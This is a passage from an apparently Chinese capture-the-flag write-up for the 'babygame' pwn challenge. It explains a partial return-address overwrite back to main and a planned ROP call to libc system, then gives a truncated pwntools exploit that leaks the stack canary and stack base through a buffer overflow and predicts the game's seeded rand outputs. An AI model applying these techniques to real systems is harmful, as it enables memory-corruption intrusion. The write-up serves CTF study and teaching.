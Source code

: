 printf正常返回得到的地址在这里


![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/10.png)

我们惊喜的发现，main函数就在它下面，修改最后一个字节就可以搞定了（返回main函数

返回main函数后，用read函数会让我们在读一次

这时候因为现在的栈出了点问题，调试能发现应该发送什么来实现shell

这时候找libc里面的system等等和ROP链，大家应该都很熟悉了


### exp

    from pwn import *

    from ctypes import CDLL



    context.log_level = 'debug'



    io = process('./babygame',env={'LD_PRELOAD': './libc-2.31.so'})

    libc = CDLL('libc.so.6')

    libc.srand(0x31313131)

    libc2 = ELF('./libc-2.31.so')

    operate = [1,2,0]



    io.recvuntil("Please input your name:")

    payload = b'a'*256 + p64(0x3131313131313131)

    #gdb.attach(io)

    io.sendline(payload)

    io.recvuntil(b"111\n")

    canary = io.recv(7).rjust(8,b'\x00')

    log.success("canary:"+hex(u64(canary)))

    stack_base = io.recv(6).ljust(8,b'\x00')

    log.success("stack_base:"+hex(u64(stack_base)))

    stack_base = u64(stack_base)



    for i in range(100):

        io.recvuntil('round')

        choose = libc.rand()%3

        io.sendline(str(operate[choose]))
